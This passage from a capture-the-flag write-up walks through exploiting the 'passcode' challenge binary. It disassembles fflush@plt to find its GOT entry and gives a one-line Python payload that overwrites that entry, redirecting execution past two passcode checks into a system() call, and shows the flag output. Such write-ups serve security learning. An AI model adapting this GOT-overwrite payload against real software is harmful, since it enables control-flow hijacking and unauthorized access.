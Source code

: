 New peda session, checking `disas fflush`:

```shell
disas fflush
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:	jmp    DWORD PTR ds:0x804a004
   0x08048436 <+6>:	push   0x8
   0x0804843b <+11>:	jmp    0x8048410
End of assembler dump.
```

So looks like it's going to `0x804a004`

And recall, our check and system call:

```nasm
   0x080485c5 <+97>:	cmp    DWORD PTR [ebp-0x10],0x528e6     ; passcode1==338150
   0x080485cc <+104>:	jne    0x80485f1 <login+141>            ; ... fail if not, else continue to
   0x080485ce <+106>:	cmp    DWORD PTR [ebp-0xc],0xcc07c9     ; passcode2==13371337
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>            ; ... fail+return to printf+quit
   0x080485d7 <+115>:	mov    DWORD PTR [esp],0x80487a5
   0x080485de <+122>:	call   0x8048450 <puts@plt>
   0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:	call   0x8048460 <system@plt>           ; shell to system
```

So, when we call "fflush", we want to put a value into it such that we jump straight to the inside of the "good" if block.

`0x080485d7` seems like a good candidate to write to the address that gets jumped to when we interpret fflush (right after we've satisfied both the == checks):

```python
>>> 0x080485d7
Sorry mom.. I got confused about scanf usage :(
Now I can safely trust you that you have credential :)
134514135
```

So:

```shell
python -c "print 96*'A'+'\x04\xa0\x04\x08'+'134514135'" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
enter passcode1 : Login OK!
Sorry mom.. I got confused about scanf usage :(
Now I can safely trust you that you have credential :)
```

Bingo, flag is: `Sorry mom.. I got confused about scanf usage :(`.
